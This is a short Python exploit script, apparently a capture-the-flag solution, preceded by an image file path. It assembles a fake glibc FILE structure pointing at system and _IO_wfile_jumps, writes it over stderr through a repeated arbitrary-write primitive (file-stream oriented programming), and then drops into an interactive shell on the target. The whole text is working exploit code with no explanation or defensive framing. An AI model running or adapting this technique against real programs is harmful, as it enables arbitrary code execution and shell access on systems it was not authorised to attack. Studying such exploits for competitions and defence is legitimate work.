```python

payload = b"\x01\x01\x01\x01;sh;"
payload += p64(0) * 4
payload += p64(1)
payload += p64(0) * 7
payload += p64(libc_base + 0x552b0) # system
payload += p64(0) * 3
payload += p64(libc_base + 0x1fecf0)
payload += p64(0) * 2
payload += p64(stderr - 0x10)
payload += p64(0) * 5
payload += p64(stderr)
payload += p64(libc_base + 0x1fd468) # _IO_wfile_jumps

### FSOP start ###
for i in range(0, len(payload), 8):
    r.sendlineafter(b"First shot...", b"AAAAA")
    # initial->idx = 1, FSOP
    AAW2(initial + 0x8, 1, stderr + i, u64(payload[i:i+8]))

### finish main() loop ###
r.sendlineafter(b"First shot...", b"AAAAA")
AAW2(initial + 0x8, 0, initial + 0x8, 0)

r.interactive()
```